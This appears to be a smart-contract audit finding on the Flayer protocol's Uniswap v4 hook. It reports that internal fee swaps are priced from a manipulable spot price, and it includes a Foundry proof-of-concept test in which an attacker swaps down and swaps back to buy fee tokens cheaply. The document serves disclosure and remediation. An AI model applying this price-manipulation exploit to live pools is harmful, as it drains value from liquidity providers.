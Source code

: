Large Mauve Parrot

Medium

# Collection tokens fees price can be manipulated in the `beforeSwap()` hook

### Summary

An attacker can get collection tokens stored as fees in the hook for cheaper than they should because the spot price, which can be manipulated, is used to determine the amounts to pay.

### Root Cause

The [UniswapImplementation::beforeSwap()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/implementation/UniswapImplementation.sol#L490) hook can swap native tokens for collection tokens internally. To calculate the swaps amounts the spot price is used:

```solidity
(uint160 sqrtPriceX96,,,) = poolManager.getSlot0(poolId);
...
(, ethIn, tokenOut, ) = SwapMath.computeSwapStep({
@>  sqrtPriceCurrentX96: sqrtPriceX96,
    sqrtPriceTargetX96: params.sqrtPriceLimitX96,
    liquidity: poolManager.getLiquidity(poolId),
    amountRemaining: int(amountSpecified),
    feePips: 0
});
```

The spot price can be manipulated, resulting in attackers being able to get native tokens held by the hook as fees for cheaper than market value.

### Internal pre-conditions

1. The hook accumulated enough collection token fees to cover the costs of manipulating the price. The cost of manipulating the price depends on the fees and the amount of liquidity in the pool.

### External pre-conditions

_No response_

### Attack Path

1. The hook accumulated some collection token fees.
2. Eve swaps collection tokens for native tokens in order to lower the spot price of collection tokens. This doesn't trigger any internal swaps because internal swaps are only triggered when swapping native tokens for collection tokens.
3. Eve swaps back all of the received native tokens for collection tokens. This triggers the internal swap. The [spot price](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/implementation/UniswapImplementation.sol#L508) used by the hook is lower than it should, resulting in Eve having to pay less native tokens than she should.

Lower liquidity pools and exempted users (ie. they don't pay fees to the pool) makes this attack more likely.

### Impact

Collection token fees stored in the hook can be bought for cheaper than expected, leading to a loss for liquidity providers as they will receive less native tokens than they should.

### PoC

To copy-paste in `UniswapImplementation.t.sol`:
```solidity
function test_Slot0Manipulation() public {
        address alice = makeAddr("alice");
        address eve = makeAddr("eve");

        ERC721Mock erc721 = new ERC721Mock();
        CollectionToken ctoken = CollectionToken(locker.createCollection(address(erc721), 'ERC721', 'ERC', 0));




        //### APPROVALS
        //-> Alice approvals
        vm.startPrank(alice);
        erc721.setApprovalForAll(address(locker), true);
        ctoken.approve(address(poolSwap), type(uint256).max);
        ctoken.approve(address(uniswapImplementation), type(uint256).max);
        vm.stopPrank();
        _approveNativeToken(alice, address(locker), type(uint).max);
        _approveNativeToken(alice, address(poolManager), type(uint).max);
        _approveNativeToken(alice, address(poolSwap), type(uint).max);

        //-> Eve approvals
        vm.startPrank(eve);
        erc721.setApprovalForAll(address(locker), true);
        ctoken.approve(address(uniswapImplementation), type(uint256).max);
        ctoken.approve(address(poolSwap), type(uint256).max);
        vm.stopPrank();
        _approveNativeToken(eve, address(locker), type(uint).max);
        _approveNativeToken(eve, address(poolManager), type(uint).max);
        _approveNativeToken(eve, address(poolSwap), type(uint).max);



        //### MINT NFTs
        //-> Mint 10 tokens to Alice
        uint[] memory _tokenIds = new uint[](10);
        for (uint i; i < 10; ++i) {
            erc721.mint(alice, i);
            _tokenIds[i] = i;
        }
        //-> Mint an extra token to Alice
        uint[] memory _tokenIdToDepositAlice = new uint[](1);
        erc721.mint(alice, 10);
        _tokenIdToDepositAlice[0] = 10;

        //-> Mint 10 tokens to Eve
        uint[] memory _tokenIdsEve = new uint[](10);
        for (uint i=11; i < 21; ++i) {
            erc721.mint(eve, i);
            _tokenIdsEve[i - 11] = i;
        }
        


        //### [ALICE] COLLECTION INITIALIZATION + LIQUIDITY PROVISION
        //-> alice initializes a collection and adds liquidity: 1e19 NATIVE + 1e19 CTOKEN
        uint256 initialNativeLiquidity = 1e19;
        _dealNativeToken(alice, initialNativeLiquidity);
        vm.startPrank(alice);
        locker.initializeCollection(address(erc721), initialNativeLiquidity, _tokenIds, 0, SQRT_PRICE_1_1);
        vm.stopPrank();



        //### [ALICE] ADDING CTOKEN FEES TO HOOK
        //-> alice deposits an NFT to get 1e18 CTOKEN and then deposits 1e18 CTOKENS as fees in the UniswapImplementation hook
        vm.startPrank(alice);
        locker.deposit(address(erc721), _tokenIdToDepositAlice, alice);
        uniswapImplementation.depositFees(address(erc721), 0, 1e18);
        vm.stopPrank();



        //### [EVE] DEPOSIT NFTS IN THE LOCKER
        //-> eve deposits 10 NFTs in order to get 1e19 CTOKENS
        vm.prank(eve);
        locker.deposit(address(erc721), _tokenIdsEve, eve);



        //### [EVE] MANIPULATE POOL PRICE AND PROFITS
        //-> eve has 0 NATIVE and 1e19 CTOKENS
        uint256 initialCTokenBalance = 1e19;
        uint256 initialNativeBalance = 0;
        assertEq(ctoken.balanceOf(eve), initialCTokenBalance);
        assertEq(WETH.balanceOf(eve), initialNativeBalance);

        //-> eve swaps 1e19 CTOKEN FOR NATIVE
        vm.startPrank(eve);
        poolSwap.swap(
            PoolKey({
                currency0: Currency.wrap(address(ctoken)),
                currency1: Currency.wrap(address(WETH)),
                fee: LPFeeLibrary.DYNAMIC_FEE_FLAG,
                tickSpacing: 60,
                hooks: IHooks(address(uniswapImplementation))
            }),
            IPoolManager.SwapParams({
                zeroForOne: true,
                amountSpecified: -int(1e19),
                sqrtPriceLimitX96: (TickMath.MIN_SQRT_PRICE + 1)
            }),
            PoolSwapTest.TestSettings({
                takeClaims: false,
                settleUsingBurn: false
            }),
            ''
        );
        vm.stopPrank();

        //-> eve has 4974874371859296482 NATIVE and 0 CTOKENS
        assertEq(ctoken.balanceOf(eve), 0);
        assertEq(WETH.balanceOf(eve), 4974874371859296482);

        //-> eve swaps `4974874371859296482` NATIVE tokens for CTOKENS
        vm.startPrank(eve);
        poolSwap.swap(
            PoolKey({
                currency0: Currency.wrap(address(ctoken)),
                currency1: Currency.wrap(address(WETH)),
                fee: LPFeeLibrary.DYNAMIC_FEE_FLAG,
                tickSpacing: 60,
                hooks: IHooks(address(uniswapImplementation))
            }),
            IPoolManager.SwapParams({
                zeroForOne: false,
                amountSpecified: -int(WETH.balanceOf(eve)),
                sqrtPriceLimitX96: (TickMath.MAX_SQRT_PRICE - 1)
            }),
            PoolSwapTest.TestSettings({
                takeClaims: false,
                settleUsingBurn: false
            }),
            ''
        );

        //-> eve has 0 NATIVE and `10576918934541439301` CTOKENS
        assertEq(ctoken.balanceOf(eve), 10576918934541439301);
        assertEq(WETH.balanceOf(eve), 0);

        //-> eve profits `0` NATIVE and `576918934541439301`CTOKEN 
        uint256 ctokenProfit = ctoken.balanceOf(eve) - initialCTokenBalance;
        uint256 nativeProfit = WETH.balanceOf(eve) - initialNativeBalance;
        assertEq(ctokenProfit, 576918934541439301);
        assertEq(nativeProfit, 0);
    }
```

### Mitigation

Use a time-weighted price average instead of the spot price.